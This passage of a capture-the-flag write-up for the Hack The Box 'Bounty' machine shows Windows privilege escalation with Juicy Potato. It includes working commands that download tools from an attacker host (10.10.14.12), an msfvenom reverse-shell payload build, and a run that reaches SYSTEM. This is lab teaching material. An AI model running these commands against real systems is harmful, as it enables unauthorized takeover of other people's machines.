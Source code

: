 This privilege is designed to allow a service to impersonate other users on the system. Juicy Potato exploits the way Microsoft handles tokens in order to escalate local privileges to **SYSTEM**.

We can get the executable from the [releases page](https://github.com/ohpe/juicy-potato/releases) and upload it to the target web server:

```powershell
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.12/JuicyPotato.exe',"c:\Windows\System32\spool\drivers\color\JuicyPotato.exe")
```

![Desktop View](/assets/img/htb/machines/windows/easy/bounty/juice.png)


In order to use this exploit, we need a program to launch. We will be using a reverse shell executable generated via `msfvenom`:

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=$(vpnip) LPORT=53 -f exe -o privesc.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: privesc.exe
```

Then we transfer it to the target machine:

```powershell
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.12/privesc.exe',"c:\Windows\System32\spool\drivers\color\privesc.exe")
```

Finally we can execute it and get a shell as **SYSTEM**:

```powershell
PS C:\Windows\System32\spool\drivers\color> .\JuicyPotato.exe -l 1337 -p privesc.exe -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
